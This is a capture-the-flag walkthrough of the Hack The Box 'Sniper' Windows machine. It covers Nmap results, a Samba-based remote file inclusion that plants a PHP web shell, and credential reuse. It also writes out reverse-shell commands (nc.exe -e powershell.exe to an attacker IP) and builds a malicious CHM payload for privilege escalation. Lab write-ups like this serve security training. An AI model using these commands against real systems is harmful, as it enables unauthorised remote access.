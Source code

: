 

[logo]: sniper-01.jpg
![alt text](sniper-01.jpg "Zer0Code")

---
## NMAP:
As always we will start with Nmap to scan for open ports and services:

```console

# Nmap 7.80 scan initiated Mon Mar  9 17:56:22 2020 as: nmap -sC -sV -p- -oA sniper -v 10.10.10.151
Nmap scan report for 10.10.10.151 (10.10.10.151)
Host is up (0.16s latency).
Not shown: 65530 filtered ports
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Sniper Co.
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
49667/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 7h01m55s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-03-09T23:08:46
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Mar  9 18:07:28 2020 -- 1 IP address (1 host up) scanned in 666.29 seconds


```

---
* Lets check HTTP service 

![alt text](sniper-02.jpg "Zer0Code")

* First thing we found is a login page 

![alt text](sniper-03.jpg "Zer0Code")

We tried to register and login but the page shows under construction message

![alt text](sniper-04.jpg "Zer0Code")


---
## RFI :

* When exploring the website we notice that page which could lead to LFI/RFI

![alt text](sniper-05.jpg "Zer0Code")

* After many trials and researches  I found that article in the Resources that using samba share with RFI
So I configured my share as following and add a PHP web shell


![alt text](sniper-06.jpg "Zer0Code")
![alt text](sniper-07.jpg "Zer0Code")
![alt text](sniper-08.jpg "Zer0Code")


* Let's use the web shell to know users of the machine

![alt text](sniper-09.jpg "Zer0Code")

* When exploring the web files we found that db.php which contain a potential creds 


![alt text](sniper-10.jpg "Zer0Code")

## Reverse Powershell :


* Let's use the web shell to upload Netcat and try to use the creds to gain a reverse Powershell 

![alt text](sniper-11.jpg "Zer0Code")
![alt text](sniper-12.jpg "Zer0Code")

## User :

* Let's try the password with user Chris and use Netcat to gain a reverse shell

```markdown
icacls "C:\tmp" /grant iusr:F

$user = "SNIPER\\Chris"
$password = "36mEAhz/B8xQ~2VM"
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $user, $securePassword
Invoke-Command -ComputerName SNIPER -Credential $credential -ScriptBlock { C:\tmp\nc.exe -e powershell.exe 10.10.16.22 5555}

```

![alt text](sniper-13.jpg "Zer0Code")
![alt text](sniper-14.jpg "Zer0Code")

And We got User Flag

---
When exploring the files on the machine we found this massage in Docs folder


![alt text](sniper-15.jpg "Zer0Code")

Also, We found that indstuctions.chm file in the Downloads folder

![alt text](sniper-16.jpg "Zer0Code")

I copied the file to samba share and opened it on Windows machine

![alt text](sniper-17.jpg "Zer0Code")

* and We decided to snipe him :D

---

## Root :
 after searching on Web about this file type we found that Nishang PS script to create CHM payload 

```markdown
Out-CHM –Payload "C:\tmp\nc.exe 10.10.16.22 6666 -e powershell.exe" –HHCPath “C:\Program Files (x86)\HTML Help Workshop”
```

![alt text](sniper-18.jpg "Zer0Code")

* Let's copy the payload to the machine over HTTP



```markdown

Invoke-WebRequest -Uri http://10.10.16.22/doc.chm -OutFile c:\docs\doc.chm

```

![alt text](sniper-19.jpg "Zer0Code")


![alt text](sniper-20.jpg "Zer0Code")


* and we got root flag

![alt text](sniper-21.jpg "Zer0Code")















## Resources:


[http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html](http://www.mannulinux.org/2019/05/exploiting-rfi-in-php-bypass-remote-url-inclusion-restriction.html)

[https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)






[![alt text](https://www.hackthebox.eu/badge/image/131282)](https://www.hackthebox.eu/profile/131282 "Zer0Code")


